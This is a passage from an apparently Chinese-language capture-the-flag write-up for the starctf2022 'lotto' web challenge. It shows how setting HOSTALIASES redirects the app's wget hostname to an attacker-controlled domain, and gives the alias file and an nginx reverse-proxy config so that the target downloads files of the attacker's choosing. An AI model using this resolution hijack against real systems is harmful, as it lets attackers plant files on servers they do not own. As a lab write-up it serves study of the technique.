 ```Python
        return render_template('lotto.html', message=message)

except Exception as e:

    message = 'Lotto Error!'

    return render_template('lotto.html', message=message)
```

wget 处采用了 hostname 的方式，此时只要劫持到 lotto 即可实现任意文件下载。因此设置环境变量如下。

```Bash
HOSTALIASES=/app/guess/forecast.txt
```

![img](starctf2022/(null)-20220421125601129.(null))

将文件内容设置如下。

```CSS
lotto lottod.lemonprefect.cn
```

![img](starctf2022/(null)-20220421125600612.(null))

此时 lotto 的解析即可被劫持到 `lottod.lemonprefect.cn`。将如下 nginx 反代配置好。

```Nginx
server

    {

        listen 80;

        #listen [::]:80;

        server_name lottod.lemonprefect.cn lotto;

        index index.html index.htm index.php default.html default.htm default.php;

        root  /home/wwwroot/lottod.lemonprefect.cn;

        location /

        {

                proxy_pass http://localhost:8068;

        }

        location ~ /.well-known {

            allow all;

        }

        location ~ /\.

        {

            deny all;

        }

        access_log  /home/wwwlogs/lottod.lemonprefect.cn.log;

```